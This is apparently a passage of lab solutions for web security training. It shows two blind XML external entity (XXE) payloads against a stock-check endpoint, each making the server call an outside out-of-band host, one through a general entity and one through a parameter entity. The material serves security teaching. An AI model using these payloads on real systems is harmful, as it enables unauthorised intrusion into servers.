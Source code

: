 ## 3. Blind XXE with out-of-band interaction

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://5u0ozpzbizdqs1nkexchcvkurlxclb90.oastify.com"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```


## 4. Blind XXE with out-of-band interaction via XML parameter entities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://1z1tohoxitpcmwp5uc4i1ve9e0kr8jw8.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>3</productId>
    <storeId>1</storeId>
</stockCheck>
```
